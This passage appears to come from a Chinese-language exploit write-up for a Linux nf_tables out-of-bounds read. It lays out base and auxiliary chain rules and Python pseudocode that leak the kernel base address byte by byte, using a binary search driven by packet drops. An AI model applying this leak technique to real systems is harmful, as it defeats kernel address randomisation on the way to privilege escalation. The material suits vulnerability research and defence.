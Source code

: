 
还有一些缺陷，就是回发的消息可能因意外被drop。为了解决这个问题，我们可以添加一些噪音还原，我们需要一个 `base chain` 和 `auxiliary chain`。

`base chain` 中的 rule：

| **#** | **Expression**       | **Arguments**                                                | **Comment**                                                  |
| ----- | -------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **0** | `nft_payload`        | `base=NFT_PAYLOAD_TRANSPORT_HEADER` `offset=offsetof(udphdr, dport)` `len=sizeof_field(udphdr, dport)` | 将packet目标端口写到 register 8                              |
| **1** | `nft_cmp_expr`       | `op=NFT_CMP_EQ` `sreg=8` `data=9999`                         | 比较目标端口是否等于 `9999`, 不等于则发出`NFT_BREAK`         |
| **2** | `nft_payload`        | `base=NFT_PAYLOAD_INNER_HEADER` `offset=0` `len=8`           | 将packet前8字节写到 register 8                               |
| **3** | `nft_cmp_expr`       | `op=NFT_CMP_EQ` `sreg=8` `data=0xdeadbeef0badc0de`           | 比较packet前8字节是否等于一个 magic value, 不等于则发出 `NFT_BREAK` |
| **4** | `nft_immediate_expr` | `verdict=NFT_JUMP` `chain=aux_chain`                         | 调用 auxiliary chain                                                |

`auxiliary chain` 中的rule：

| **#** | **Expression**  | **Arguments**                                                | **Comment**                                                  |
| ----- | --------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **0** | `nft_bitwise`   | `op=NFT_BITWISE_RSHIFT` `data=SHIFT_AMT` `dreg=OOB_OFFSET` `sreg=8` | 利用OOB read将内核地址写到 register, 移位 `SHIFT_AMT` bits 以将目标地址的字节写到正确的 register |
| **1** | `nft_cmp`       | `op=NFT_CMP_GT` `sreg=ADDRESS_OFFSET` `data=COMPARAND`       | 比较内核地址字节和 `COMPARAND`, 如果不相等则发出 `NFT_BREAK` |
| **2** | `nft_immediate` | `verdict=NFT_DROP`                                           | 如果地址字节大于 `COMPARAND` 则 drop packet                  |

通过检查目标端口并且比较header的前8字节和 magic value，我们可以对指定的packet进行操作（该packet中包含将要比较的值 `COMPARAND`）。通过动态修改 `COMPARAND`，我们可以二分搜索内核地址字节，通过动态修改 `SHIFT_AMT` 我们可以挪到下一个内核地址字节（每次确定1字节，总共4个字节即可泄露内核基址）。

**泄露伪代码**：利用python来实施地址泄露。

```python
# 假设第2个线程在从 127.0.0.1:9999 接收 UDP packet, 并且所有必要的 nf_tables 已经设置好了, 例如 table/base/auxiliary chain

def leak_byte(pos):
    s = socket.socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)
    s.settimeout(200) # 200ms should be more than enough
    s.bind(("127.0.0.1", 1234))
    
    # search bounds
    low = 0, high = 255
    
    while True:
        mid = (low + high) // 2
        
        # if our search found the value, return it
        if low == high:
            s.close()
            return mid
        
        set_leak_rule(SHIFT_AMT=pos*8, COMPARAND=mid)
        
        # Send packet and trigger the auxiliary chain
        s.sendto(pack(0xdeadbeef0badc0de), ("127.0.0.1", 9999))
        
        # Secondary thread sends back to 127.0.0.1:1234
        res = s.recvfrom(0x2000)
        
        if not res:
            # our packet got dropped, because nothing got sent back in 200ms
            # which means that byte to leak >= mid
            low = mid
        else:
            # sanity check
            if res != b"MSG_OK":
                print("Something went wrong")
                return None
```